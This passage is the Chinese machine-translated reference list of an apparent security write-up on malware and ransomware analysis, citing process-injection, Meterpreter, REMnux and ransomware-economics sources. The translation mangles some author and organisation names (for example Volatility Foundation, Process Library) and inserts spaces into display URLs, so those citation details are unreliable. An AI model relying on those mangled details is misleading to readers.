**Hosseini，A. (2017)。*十大流程注入技术:常见和趋势流程注入技术的技术综述*。弹性博客。2022 年 11 月 29 日检索自:[https://www . elastic . co/blog/ten-process-injection-technique-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)**

**Khan，S. (2021 年)。*MAL:REMnux The Redux TryHackme*。2022 年 11 月 29 日检索自:[https://shams her-Khan-404 . medium . com/mal-remnux-the-redux-tryhackme-8d 257 a6a 5665](https://shamsher-khan-404.medium.com/mal-remnux-the-redux-tryhackme-8d257a6a5665)**

**拉加德克山口(未标明)。ViperMonkey:一个 VBA 解析器和仿真引擎，用于分析恶意宏。GitHub 仓库。2022 年 11 月 29 日检索自:[https://github.com/decalage2/ViperMonkey](https://github.com/decalage2/ViperMonkey)**

**拉斯卡，a .，法亨，s .，格罗斯拉格，J. (2017)。勒索软件的经济学。*载于:Rass，s .，An，b .，Kiekintveld，c .，Fang，f .，Schauer，s .(编辑)安全决策和博弈论。GameSec 2017。计算机科学讲义(第 397–417 页)，第 10575 卷*。斯普林格，查姆。[https://doi.org/10.1007/978-3-319-68711-7_21](https://doi.org/10.1007/978-3-319-68711-7_21)**

**Linux 手册页(未注明)。`strings` *—打印文件中的可打印字符串*。2022 年 11 月 28 日检索自:[https://linux.die.net/man/1/strings](https://linux.die.net/man/1/strings)**

**Metasploit Unleashed(未标明)。*关于 Metasploit Meterpreter* 。进攻安全。2022 年 11 月 29 日检索自:[https://www . offensive-security . com/metasploit-unleashed/about-meter preter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)**

**微软公司。*微软 Office* 。2022 年 11 月 29 日检索自:[https://www . Microsoft . com/en-us/Microsoft-365/Microsoft-office](https://www.microsoft.com/en-us/microsoft-365/microsoft-office)**

**微软公司。*安装 Windows 7 服务包 1 (SP1)* 。2022 年 11 月 29 日检索自:[https://support . Microsoft . com/en-us/windows/install-windows-7-service-pack-1-SP1-B3 da 2c 0f-CDB 6-0572-8596-Bab 972897 f61](https://support.microsoft.com/en-us/windows/install-windows-7-service-pack-1-sp1-b3da2c0f-cdb6-0572-8596-bab972897f61)**

**p .奥凯恩、s .塞泽尔和 d .卡林(2018 年)。勒索软件的进化*。IET 网络，7(5)，321–327。https://doi.org/10.1049/iet-net.2017.0207*T3**

**工艺库(未注明)。*什么是* `cryptbase.dll`？2022 年 11 月 29 日检索自:[https://www . process library . com/en/directory/files/crypt base/4691/](https://www.processlibrary.com/en/directory/files/cryptbase/4691/)**

**Simoiu，c .，Gates，c .，Bonneau，j .和 Goel，S. (2019)。“有人告诉我，要么买一个软件，要么丢掉我的电脑。我忽略了”:勒索病毒研究。*在第十五届可用隐私与安全研讨会上【SOUPS 2019】155–174*。USENIX 协会。2022 年 11 月 28 日检索:[https://www . usenix . org/conference/soups 2019/presentation/SIMO iu](https://www.usenix.org/conference/soups2019/presentation/simoiu)**

**波动基金会(未标明)。*关于波动率基础*。2022 年 11 月 29 日检索自:[https://www.volatilityfoundation.org/about](https://www.volatilityfoundation.org/about)**

**瓦格纳等人(2022)。 *C#编程指南*。微软学习。2022 年 11 月 29 日检索自:[https://learn . Microsoft . com/en-us/dot net/cs harp/programming-guide/](https://learn.microsoft.com/en-us/dotnet/csharp/programming-guide/)**

**Zimba，a .，Chishimba，M. (2019)。加密勒索软件攻击的经济影响:企业系统的最新发展。*欧洲安全研究中心* **4** ，3–31。[https://doi.org/10.1007/s41125-019-00039-8](https://doi.org/10.1007/s41125-019-00039-8)**

## **来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**